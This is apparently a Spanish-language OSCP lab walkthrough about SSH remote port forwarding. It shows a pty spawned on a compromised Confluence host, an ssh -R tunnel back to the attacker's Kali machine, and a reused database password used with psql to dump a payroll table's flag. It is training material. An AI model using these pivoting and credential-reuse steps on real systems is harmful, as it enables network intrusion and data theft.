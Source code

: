 # Walk: Port Redirection and SSH Tunneling - SSH Remote Port Forwarding - VM Group 1

## Fecha: 21/03/2025
## Host: PGDATABASE01 | CONFLUENCE01
## IP: 10.4.xxx.215 |  192.168.xxx.63
## Objetivo
Start VM Group 1 and follow the example from this section. What's the value of the flag found in the **hr_backup** database **payroll** table?
## Herramientas
1. ssh
2. systemctl
## Procedimiento y comandos
#### Paso 1: Configuramos ssh en kali
1. Cambiamos la admision de password 
```
nano /etc/ssh/sshd_config
# To disable tunneled clear text passwords, change to no here!
PasswordAuthentication yes
#PermitEmptyPasswords no
```
2. Iniciamos el servicio
`sudo systemctl start ssh`
#### Paso 2: Configuramos el tunel desde _CONFLUENCE_
1. Nos conectamos a CONFLUENCE como en las maquinas anteriores:
```
confluence@confluence01:/opt/atlassian/confluence/bin$ python3 -c 'import pty; pty.spawn("/bin/sh")'
</bin$ python3 -c 'import pty; pty.spawn("/bin/sh")'
$ ssh -N -R 127.0.0.1:2345:10.4.111.215:5432 kali@192.168.45.198
ssh -N -R 127.0.0.1:2345:10.4.111.215:5432 kali@192.168.45.198
Could not create directory '/home/confluence/.ssh'.
The authenticity of host '192.168.45.198 (192.168.45.198)' can't be established.
ECDSA key fingerprint is SHA256:A44ctMNCG48aRHny80MXOphfYTv3LcRjemm+4lxN2gw.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
yes
Failed to add the host to the list of known hosts (/home/confluence/.ssh/known_hosts).
kali@192.168.45.198's password: 
```
#### Paso 3: Obtenemos el flag
1. Desde kali comprobamos la configuracion del tunel:
```
┌──(root㉿kali)-[/home/kali/OffSec/19-PortForwarding-SSHTunneling/19.3.3-SSH-Remote-PortForwarding]
└─# ss -ntplu                
Netid          State           Recv-Q          Send-Q                                       Local Address:Port                     Peer Address:Port          Process                                             
udp            UNCONN          0               0                                                  0.0.0.0:45056                         0.0.0.0:*                                                                 
udp            UNCONN          0               0                                                  0.0.0.0:46441                         0.0.0.0:*              users:(("openvpn",pid=40386,fd=3))                 
udp            UNCONN          0               0                                                     [::]:45056                            [::]:*                                                                 
udp            UNCONN          0               0                        [fe80::e5be:614c:27c4:fd55]%wlan1:546                              [::]:*              users:(("NetworkManager",pid=1786,fd=38))          
udp            UNCONN          0               0                         [fe80::98b4:a09d:8844:822e]%eth0:546                              [::]:*              users:(("NetworkManager",pid=1786,fd=29))          
tcp            LISTEN          0               128                                                0.0.0.0:22                            0.0.0.0:*              users:(("sshd",pid=66871,fd=7))                    
tcp            LISTEN          0               128                                              127.0.0.1:2345                          0.0.0.0:*              users:(("sshd-session",pid=67536,fd=8))            
tcp            LISTEN          0               128                                                   [::]:22                               [::]:*              users:(("sshd",pid=66871,fd=8))
```
2. Nos conectamos a **_PSDATABASE01_** -> D@t4basePassw0rd!
> La credencial es la que encontramos en el archivo [xml](https://github.com/santiagosj/Notas-OSCP/blob/main/Walk/2025-03-18_19.2.3_PortForwarding.md)
```
┌──(root㉿kali)-[/home/kali/OffSec/19-PortForwarding-SSHTunneling/19.3.3-SSH-Remote-PortForwarding]
└─# psql -h 127.0.0.1 -p 2345 -U postgres
Password for user postgres: 
psql (17.4 (Debian 17.4-1), server 12.12 (Ubuntu 12.12-0ubuntu0.20.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, compression: off, ALPN: none)
Type "help" for help.

postgres=# \l
                                                      List of databases
    Name    |  Owner   | Encoding | Locale Provider |   Collate   |    Ctype    | Locale | ICU Rules |   Access privileges   
------------+----------+----------+-----------------+-------------+-------------+--------+-----------+-----------------------
 confluence | postgres | UTF8     | libc            | en_US.UTF-8 | en_US.UTF-8 |        |           | 
 hr_backup  | postgres | UTF8     | libc            | en_US.UTF-8 | en_US.UTF-8 |        |           | 
 postgres   | postgres | UTF8     | libc            | en_US.UTF-8 | en_US.UTF-8 |        |           | 
 template0  | postgres | UTF8     | libc            | en_US.UTF-8 | en_US.UTF-8 |        |           | =c/postgres          +
            |          |          |                 |             |             |        |           | postgres=CTc/postgres
 template1  | postgres | UTF8     | libc            | en_US.UTF-8 | en_US.UTF-8 |        |           | =c/postgres          +
            |          |          |                 |             |             |        |           | postgres=CTc/postgres
(5 rows)

postgres=# \c hr_backup
psql (17.4 (Debian 17.4-1), server 12.12 (Ubuntu 12.12-0ubuntu0.20.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, compression: off, ALPN: none)
You are now connected to database "hr_backup" as user "postgres".
hr_backup=# select flag from payroll
hr_backup-# select * from payroll
hr_backup-# select * from payroll;
ERROR:  syntax error at or near "select"
LINE 2: select * from payroll
        ^
hr_backup=# SELECT * FROM payroll;
 id |                 flag                 
----+--------------------------------------
  0 | OS{3908***************************0f1c1}
(1 row)

hr_backup=# 
```  
